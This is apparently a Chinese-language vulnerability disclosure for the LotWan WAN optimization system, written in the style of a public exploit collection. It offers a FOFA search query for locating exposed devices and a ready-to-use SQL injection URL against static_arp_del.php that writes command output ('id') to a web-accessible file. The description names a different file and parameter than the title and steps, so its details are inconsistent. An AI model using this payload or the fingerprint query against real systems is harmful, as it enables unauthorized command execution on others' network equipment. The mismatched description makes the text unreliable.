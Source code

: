 # 华夏创新 LotWan广域网优化系统 static_arp_del.php SQL注入漏洞

## 漏洞描述

华夏创新 LotWan广域网优化系统check_instance_state.php文件参数 ins存在命令拼接，导致远程命令执行漏洞

## 漏洞影响

```
华夏创新 LotWan广域网优化系统
```

## FOFA

```
title="LotWan 广域网优化系统"
```

## 漏洞复现

登录页面

![image-20220519182931309](./images/202205191829394.png)

存在漏洞的文件为 static_arp_del.php, 通过union注入写入文件

```
/acc/bindipmac/static_arp_del.php?x=1&arpName=1' and 0 union select 1,'||id>cmd.txt||',3,4,5,6,7,8--
```

再访问 `/acc/bindipmac/cmd.txt`

![image-20220519182946695](./images/202205191829769.png)